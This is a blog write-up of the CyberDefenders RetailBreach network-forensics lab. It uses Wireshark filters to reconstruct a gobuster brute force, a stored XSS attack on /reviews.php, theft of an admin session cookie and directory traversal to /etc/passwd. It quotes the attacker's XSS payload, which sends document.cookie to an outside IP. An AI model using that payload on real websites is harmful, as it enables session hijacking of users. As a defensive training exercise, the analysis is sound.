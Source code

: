 ```yaml
---
title: "Cyberdefenders RetailBreach Lab"
date: 2025-01-04
media_subpath: /assets/posts/2025-01-04-cyberdefenders-retailbreach-lab
published: false
layout: post
categories:
- ctf
- blue team
tags:
- cyberdefenders
- blueteam
- network forensics
- wireshark
- pcap
- red team
---
```



### Question 1

To begin this lab, we'll first read over the README in the 'start here' directory. From this we gather the following information about the scenario

- We are a cybersecurity analyst for an online retailer platform called ShopSphere
- There has been an unusual pattern of administrative logins late at night suggesting a breach
- We have a pcap file `RetailBreach.pcap` to analyse with the option of a bunch of different tools like zeek, wireshark, networkminer, etc

Lets start by opening the pcap file with wireshark. Looking at the protocol hierarchy statistics in wireshark we notice the majority of the packets are HTTP packets and we also see there are some SSH packets. Lets first determine whether the administrative logins late at night are via the web page or via SSH directly to the machine

![protocol hierarchy img](proto_hierarchy_retailbreach.png)

But first lets determine the IP of our web server using the filter `http` in wireshark. The destination packets for all the HTTP GET requests are sent to `73.124.17.52` which means this is most likely the IP of the breached web server

Now, if we remove the filter and check all the conversations that took place, we can see there are two other IPs, `111.224.180.128` and `135.143.142.5`, where the conversation with the former involved a substantially larger amount of packets

We want to determine which of the two IPs was the attacker. Lets examine the conversations with each of them, first with the requests sent to and from the web servers /admin directory and /login.php page. Using the following filters

`ip.addr == 135.143.142.5 && http.request.uri contains "admin"`  
`ip.addr == 135.143.142.5 && http.request.uri contains "login.php"`

We can see there were only 6 separate GET requests to the /admin directory and 1 post request sent to login.php, and if we use the filter

`ip.addr == 135.143.142.5 && ssh`

there was no interaction with the web servers SSH server.

This confirms that the attackers ip is `111.224.180.128` due to the fact there were no multiple administrative login attempts from this IP

### Question 2

Now we want to find the brute-forcing tool the attacker used. Brute-forcing tools often use specific or default User-Agent strings to identify themselves. If we use the filter

`ip.addr == 111.224.180.128 && http` 

and scroll down slightly we see there was a large number of get requests sent to directorys which are most likely a brute-force attack (GET /.bash, GET /.passwd, etc), from looking at the HTTP headers in any one of these packets we see the following

![useragent img](useragent_retailbreach.png)

So our answer is gobuster

### Question 3

Now we want to determine the XSS payload utilised by the attacker to compromise the websites integrity. Since we are dealing with an XSS attack which was used to compromise the websites integrity we will be dealing with either a reflected or stored XSS attack. Both of these utilise POST requests so thats where we'll look using the filter 

`ip.addr == 111.224.180.128 && http.request.method == "POST"`

The result is only two packets. If we follow the TCP stream for each one, we find that the payload of the second packet contains the following

![xss_script img](xss_script_retailbreach.png)

Thus the XSS payload is 

`<script>fetch('http://111.224.180.128/' + document.cookie);</script>`

and it was posted to the `/reviews.php` page.

### Question 4

From reading question 4 and answering question 3 we now know that the attacker gained access via an XSS attack to an admin user, we can also deduce from this that it is likely that the admin users' IP was the one other IP within the pcap, `135.143.142.5`. So to find the answer we can filter for

`135.143.142.5 && http.request.uri contains "/reviews.php"`

since we know the ip and the page that contained the vulnerable input. The result is only two packets, if we follow the HTTP stream for each packet we see that in the HTTP response for the GET request sent by packet number 10106 contains the malicious script, so the answer is the UTC time at which packet 10106 was sent which is `29-03-2024 12:09:50`

### Question 5

Now we know the attacker's method: they exploited a stored XSS vulnerability in the /reviews.php page and used this vulnerability to steal an admin users session token, gaining admin access to the website. To get the session token which the attacker utilised we can look at the session token which was used in the GET request which was sent by the target to the vulnerable web page (packet number 10106).

![cookie img](cookie_retailbreach.png)

we can see that the cookie used is `PHPSESSID=lqkctf24s9h9lg67teu8uevn3q`, to confirm this we could correlate this to the cookie which was used by the attacker but since this is the only request where the target visited the compromised webpage with the stored XSS payload we can safely say that this was the cookie used by the attacker.

### Question 6

Now we are investigating a script on the web server which was exploited by the attacker and we also know the session token used so for our filter we are going to use

`ip.addr == 111.224.180.128 && http.request.uri contains "/admin" && http.cookie contains "lqkctf24s9h9lg67teu8uevn3q"`

The result is 5 packets; however, we also see a suspicious packet sent to /admin/log_viewer.php

![directory traversal img](dir_traversal_retailbreach.png)

so the attacker exploited the log_viewer.php script to perform a directory traversal to access the `/etc/passwd` file.

### Question 7

The attacker used directory traversal to access `/etc/passwd` therefore our answer for this is `/etc/passwd/`.
